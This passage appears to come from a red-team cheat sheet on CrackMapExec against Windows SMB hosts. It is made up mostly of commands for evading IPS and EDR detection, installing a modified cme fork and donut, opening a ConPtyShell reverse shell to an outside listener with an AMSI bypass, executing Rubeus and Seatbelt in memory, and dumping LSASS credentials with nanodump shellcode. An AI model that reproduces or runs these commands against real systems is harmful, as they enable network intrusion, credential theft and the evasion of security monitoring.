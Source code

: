 Bypass network IPS restrictions:

```
$ sudo nmap -n -sn 192.168.1.0/24 | grep for | awk '{print $5}' > 192.168.1
$ for ip in `cat 192.168.1`; do cme smb $ip; sleep 1; done
Or
$ cme -t 1 --jitter 1 smb 192.168.1.0/24
```


#### Custom Switches

Bypass execution restrictions of EDRs monitoring for `WmiPrvSE.exe` misbehavior with custom switches (see [dotnetassembly](https://github.com/snovvcrash/CrackMapExec/tree/dotnetassembly) branch).

Get the dependencies and stuff:

```
$ sudo apt install mono-devel
$ git clone --single-branch -b syscalls https://github.com/S4ntiagoP/donut ~/tools/donut && cd ~/tools/donut && make && sudo ln -sv `realpath donut` /usr/local/bin/donut && cd -
$ wget https://github.com/snovvcrash/CrackMapExec/raw/dotnetassembly/cme/data/donut_template.cs -O ~/.cme/donut_template.cs
$ wget https://github.com/snovvcrash/CrackMapExec/raw/dotnetassembly/cme/protocols/smb.py -O ~/.local/pipx/venvs/crackmapexec/lib/python3.10/site-packages/cme/protocols/smb.py
```

Example of invoking a PowerShell module ([ConPtyShell](https://github.com/antonioCoco/ConPtyShell)):

```
$ stty raw -echo; (stty size; cat) | nc -lvnp 1337
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'Invoke-ConPtyShell.ps1 Invoke-ConPtyShell 10.10.13.37 1337' --amsi-bypass amsi.ps1 --no-output
```

Example of executing a .NET assembly ([Rubeus](https://github.com/GhostPack/Rubeus)):

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'Seatbelt.exe -group=user' --dotnetassembly --dotnetassembly-entrypoint 'Rubeus,Program,MainString' --dotnetassembly-entrypoint-argtype string --amsi-bypass amsi.ps1 --codec cp866
```

Example of converting an unmanaged binary ([NanoDump](https://github.com/helpsystems/nanodump)) to a shellcode with [donut](https://github.com/S4ntiagoP/donut/tree/syscalls), then compiling a .NET self-injector from a template with the shellcode inside and executing it (see [SharpBin2SelfInject](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37)):

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'nanodump.exe -w C:\Windows\Temp\lsass.bin' --dotnetassembly --donut
```




## Slinky Cat & OffensiveSysAdmin
